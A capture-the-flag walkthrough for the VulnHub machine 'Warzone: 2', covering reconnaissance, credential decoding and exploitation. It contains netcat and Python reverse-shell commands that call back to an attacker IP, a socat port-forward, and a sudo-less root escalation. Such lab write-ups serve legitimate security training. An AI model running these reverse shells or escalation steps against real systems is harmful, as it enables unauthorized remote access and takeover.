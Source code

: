 # Warzone: 2

[Machine](https://www.vulnhub.com/entry/warzone-2,598/ "https://www.vulnhub.com/entry/warzone-2,598/")

## Reconnaissance

### nmap

#### Ports scanning:
```
nmap -sS -T4 -p- 192.168.88.224 -oA ports
```
#### Services scanning:
```
nmap -sV -O -p21,22,1337 192.168.88.224 -oA services
```
### ftp

Anonymous login is allowed.

![ftp](screenshots/ftp.png)

From there we have three pictures.

username:

![username](ftp/username.PNG)

password:

![password](ftp/password.PNG)

token:

![token](ftp/token.PNG)

I searched for cipher on the username and password pictures. And I got [a flag semaphore](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore").

Decode the symbols from pictures and get a username and a password in `creds/`. I wrote it in upper case as wiki says.

### port 1337

1337 port seems to be a custom application.

I tried to take a banner:

![1337 conn](screenshots/1337_banner.png)

## Threat modeling

I think that it is enough to gather. Now we have the creds and have the 1337 port with login. I believe we easily will get remote access and that's all. 

By the way, need to write a script to create the token!

## Vulnerability analysis

### vsftpd

Not vulnerable.

### ssh

Not vulnerable.

### Misconfiguration of ftp

The main vulnerability is this. But I don't know about backend of 1337 port. Maybe here we can also have binary vulnerabilities.

## Exploitation

### Token

[Script to create a token](token.py)

Successfully got access with 'lower' credentials.

![access](screenshots/1337_access.png)

But we don't have shell yet.

### Shell

Get shell is easy:

Local:
```
nc -lnvp 4444
```
Target:
```
nc 192.168.88.225 4444 -c /bin/sh
```
So, after target connected to us, it will open a shell.

![shell](screenshots/shell.png)

```
python -c 'import pty;pty.spawn("/bin/bash")'
```
User - `www-data`.

### ssh flagman

In flagman home directory:

![warzone](screenshots/warzone.png)

Now we have a good shell and ssh access.

## Post exploitation

`sudo -l` will show you admiral wrz2-app.py execute permission which is similiar to server from previous machine Warzone 1
```
sudo -u admiral /usr/bin/python3 /home/admiral/warzone2-app/wrz2-app.py
```
Then you will see the PIN to console on web server. It was not available in previous server because you can see it only on the server side.
Also, the app shows you that it is running on 127.0.0.1:5000 which is local service.

### Port forwarding

I used socat as flagman:
```
socat TCP-LISTEN:8080, fork TCP:127.0.0.1:5000
```

Then go to attack-machine:8080 and you will get the available service.

### /console

In console, we can execute whatevere we want with python. So execute a reverse shell with open nc server:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.88.225",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
Got admiral.

### root

`sudo -l will` show you that you can execute less and see the content of warzone-rules.txt

with GTFOBins you can easily get a root:
```
sudo -u root /usr/bin/less /var/public/warzone-rules.txt
!/bin/sh
```

## Sources

### Flag semaphore

[wiki](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore")

### Port forwarding with socat

[port forwarding](https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https "https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https")

### GTFOBins

[shell with less binary](https://gtfobins.github.io/gtfobins/less/#shell "https://gtfobins.github.io/gtfobins/less/#shell")
